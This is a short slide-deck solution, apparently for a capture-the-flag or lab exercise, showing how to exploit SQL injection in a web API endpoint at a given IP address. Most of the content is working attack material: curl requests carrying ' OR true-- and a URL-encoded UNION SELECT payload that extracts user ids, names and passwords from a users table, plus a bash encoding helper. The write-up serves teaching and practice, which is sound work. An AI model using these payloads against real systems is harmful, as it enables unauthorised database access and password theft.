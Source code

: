 ```yaml
---
author: "@Babidiii"
date: "January 02, 2006"
paging: Slide[ %d / %d ]
---
```

# Soluce Feuille 

# Test 

```bash
curl -s -S "165.227.225.62:3333/team/Dion" | jq
echo "--------"
curl -s -S "165.227.225.62:3333/team/albert" | jq
```
---

# Soluce
- Trying some escape with dummy `' OR true`

```bash
curl -s -S "165.227.225.62:3333/team/' OR true--" 2>&1 | jq '.[:3]'
```

---
# Trying with url encoding

`' OR true--` --> **urlencoding** --> `'%20OR%20true--`
* `'` escape the string
* `OR true` return yes for each row in the where clause
* `--` comment the end of the request 

```bash
curl -s -S "165.227.225.62:3333/team/'%20OR%20true--" | jq '.[:3]'
```

---

# Exploit
- Using scripts for URL encoding

```bash
# URL Encoder 
urle () { 
  [[ "${1}" ]] || return 1; 
  local LANG=C i x; for (( i = 0; i < ${#1}; i++ )); do 
    x="${1:i:1}"; [[ "${x}" == [a-zA-Z0-9.~_-] ]] && echo -n "${x}" || printf '%%%02X' "'${x}"; 
  done; echo; 
}

# Building malicious payload
pld="' UNION SELECT id,firstname,password,null,null from users--" 
enc_pld="$(urle "${pld}")"

# debug
echo "PAYLOAD --> ${pld}"
echo "ENCODED --> ${enc_pld}"

# Sending malicious payload
echo "Sending payload"
curl -s -S "165.227.225.62:3333/team/${enc_pld}" | jq 
```
